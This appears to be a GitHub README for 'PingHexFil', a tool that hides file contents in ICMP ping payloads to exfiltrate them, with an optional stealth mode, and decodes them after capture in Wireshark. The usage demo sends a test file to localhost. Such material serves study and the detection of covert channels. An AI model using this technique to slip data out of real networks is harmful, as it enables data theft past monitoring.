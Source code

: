 # PingHexFil
Exfiltration of small files using ICMP
## Data Exfiltration using ICMP
Pass a file name, destination IP address, and "--stealth" (optional), to the application. The application will chunk the file into 60K sizes and send each "chunk" as the data payload of the ICMP request to the destination IP address. Ensure that you are capturing ICMP packets at the destination before sending. You can do this using Wireshark.
## Usage
The following is done with the example file, `examples/example1.txt`
### Step 1: Send the Bytes via ICMP
```
root@demon:~/pinghexfil# ls
decoder.py  examples  images  payloads  pinghexfil.py  README.md
root@demon:~/pinghexfil# cat examples/example1.txt 
This is a test file.
OK.
root@demon:~/pinghexfil# ./pinghexfil.py 127.0.0.1 examples/example1.txt 
[+] Opening file: examples/example1.txt
[+] Sending data as: 54686973206973206120746573742066696c652e0a4f4b2e0a
.
Sent 1 packets.
Exiting.
root@demon:~/pinghexfil# 
```
### Step 2: Gather Bytes via Wireshark
Simply right click on the data and choose **Select->as a Hex Stream** and paste the output into a file, as I did in the file `payloads/example1.txt`

![Wireshark Screenshot](images/wireshark.png)

### Step 3: Decode the Bytes
```
root@demon:~/pinghexfil# ./decoder.py payloads/example1.txt 
[+] Opening file: payloads/example1.txt
[+] file data: 54686973206973206120746573742066696c652e0a4f4b2e0a

This is a test file.
OK.

root@demon:~/pinghexfil# 
```
